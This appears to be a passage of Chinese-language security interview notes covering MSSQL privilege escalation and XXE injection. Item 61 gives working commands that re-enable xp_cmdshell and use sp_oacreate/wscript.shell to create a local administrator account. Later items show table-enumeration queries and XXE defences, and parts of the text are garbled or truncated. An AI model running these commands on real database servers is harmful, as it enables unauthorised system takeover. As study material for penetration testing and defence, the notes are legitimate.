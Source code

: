 #### ✸ 61.mssql 提权的提权思路有哪些步骤？  
（1）首先看看xp_cmdshel 是否 l 存在,不存在的话先恢复，恢复语句如下：</br>  
Exec sp_configure show advanced options,1;RECONFIGURE;EXEC  sp_configure xp_cmdshell,1;RECONFIGURE;  ;EXEC sp_configure show advanced options, 1;RECONFIGURE;EXEC  sp_configure xp_cmdshell, 1;RECONFIGURE;--  </br>
（2）如果 xp_cmdshell 还是不行就再执行命令  </br>
;dbcc addextendedproc("xp_cmdshell","xplog70.dll");--  </br>
或;sp_addextendedproc xp_cmdshell,@dllname=xplog70.dll 来恢复cmdshell  </br>
（3）无法在库  xpweb70.dll  中找到函数  xp_cmdshell。原因: 127(找不到指定的程序。)  </br>
恢复方法：查询分离器连接后,  </br>
第一步执行:exec sp_dropextendedproc xp_cmdshell  </br>
第二步执行:exec sp_addextendedproc xp_cmdshell,xpweb70.dll  </br>
然后按 F5 键命令执行完毕  </br>
（4）终极方法如果以上方法均不可恢复,请尝试用下面的办法直接添加帐户:查询分离器连接后,  </br>
2000servser 系统:  </br>
declare @shell int exec sp_oacreate wscript.shell,@shell output exec  sp_oamethod @shell,run,null,c:winntsystem32cmd.exe /c net user dell  huxifeng007 /add </br> 
declare @shell int exec sp_oacreate wscript.shell,@shell output exec sp_oamethod @shell,run,null,c:winntsystem32cmd.exe /c net localgroup  administrators dell /add </br> 
sql2008  提权  低权限运行  </br>

#### ✸ 62、mssql 提权提示错误代码 5 ，cmd 权限不足的原因？  
错误代码”5″ ，马上google 之。由于 xp_cmdshell 是严格 </br>
用%systemroot%\system32\cmd.exe 去执行所提交的命令的，提示”5″ ，意思是 cmd 的权限不足，就是说 system32 下的 cmd.exe 被降权了。当然也有绕过的方法，比如启用沙盒模式执行 shell 命令：  </br>

#### ✸ 63.怎么用 sqlmap 对 sa 权限的 mssql 2008 进行提权？  
 （1 ）第一种函数  </br>
select name from sysobjects where xtype=u  通过这个来爆第一个表  </br>
select name from sysobjects where xtype=u and name not in(爆出来的表1 ，爆出来的表2...) </br> 
一直爆下去，直到找到我们所需要的表位置  </br>
 （2 ）第二种函数  </br>
select table_name from information_schema.tables  </br>
select table_name from information_schema.tables where table_name  </br>
not in (爆出来的表 1 ，爆出来的表2...)  </br>
参考文章：http://www.freebuf.com/articles/web/10280.html </br> 

#### ✸ 64.xxe 注入有哪些危害以及防御   ？ 
（1）引用外部实体<!ENTITY 实体名称  SYSTEM "URI">或者  <!ENTITY 实体名称  PUBLIC "public_ID" "URI">  当允许引用外部实体时，通过构造恶意内容 </br> 
（2）可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。  </br>
对于不同 XML 解析器,对外部实体有不同处理规则,在 PHP 中默认处理的函数为:  </br>
xml_parse 和 simplexml_load xml_parse 的实现方式为 expat 库，默认情况不会解析外部实体,而 simplexml_load 默认情况下会解析外部实体,造成安全威胁. </br>
除 PHP 外，在 Java ，Python 等处理 xml 的组件及函数中都可能存在此问题  </br>
https://www.waitalone.cn/xxe-attack.html  </br>
XXE 漏洞 http://www.91ri.org/9539.html &nbsp;  </br>
<!DOCTYPE filename  </br>
[<!ENTITY entity-name "entity-content" ]>  </br>
（3）防御：  </br>
方案一、使用开发语言提供的禁用外部实体的方法  </br>
libxml_disable_entity_loader(true);  </br>
方案二、过滤用户提交的 XML 数据  </br>
1.检查所使用的底层 xml 解析库，默认禁止外部实体的解析  </br>
2.使用第三方应用代码及时升级补丁  </br>
3.同时增强对系统的监控，防止此问题被人利用  </br>
对于 PHP,由于 simplexml_load_string 函数的 XML 解析问题出在 libxml 库上, 所以加载实体前可以调用这样一个函数  </br>
